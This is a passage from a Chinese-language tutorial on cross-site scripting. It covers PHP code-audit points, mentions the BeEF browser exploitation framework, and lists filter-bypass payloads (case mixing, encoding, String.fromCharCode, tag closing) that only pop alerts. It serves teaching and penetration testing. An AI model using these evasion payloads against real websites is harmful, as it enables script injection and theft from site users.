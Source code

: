 其它工具自行搜索，不过基于以上工具可基本满足平时测试和复现；其他工具网络搜索即可。

##### BeEF

BeEF，全称The Browser Exploitation Framework，是一款针对浏览器的渗透测试工具。

![logo](/images/XSS/logo.png)

参考另一篇BeEF使用。

#### 白盒测试

关于XSS的代码审计主要就是从`接收参数`和`输出函数`及一些关键词入手。

PHP中常见`接收参数`的方式有：`$_GET`、`$_POST`、`$_REQUEST`等等，

PHP中常见`输出函数`的方式有：`print`，`print_r`，`echo`，`printf`，`sprintf`，`die`，`var_dump`，`var_export`

可以搜索`接收参数`的地方。然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。

也可以搜索`输出函数`这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。

大多数程序会对接收参数封装在公共文件的函数中统一调用，就需要审计这些公共函数看有没有过滤，能否绕过等等。

DOM型注入同样可以搜索一些JS操作DOM元素的关键词进行审计。

### Bypass

汇总部分绕过xss过滤方式，更多可搜“`XSS Filter Evasion Cheat Sheet_SecPulse`”一份专门介绍XSS的绕过。

#### 大小写

```shell
`<ScRIpT>alert('XSS')</sCRIpT>`
```

#### 编码

```shell
1、十六进制编码
2、jsfuck编码
3、url编码
4、unicode编码等
5、`<0x736372697074>alert('123')</0x736372697074>`
6、`<img src="1" onerror="alert&#x28;1&#x29;">`
```

#### magic_quotes_gpc

```shell
//绕过可参考以下
`<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script>`
```

#### 标签

##### 闭合

```shell
//查看源码输出位置是否存在标签未闭合情况来进行绕过
`"><script>alert(/123/)</script>`
`</script><script>alert(1)</script>`
```
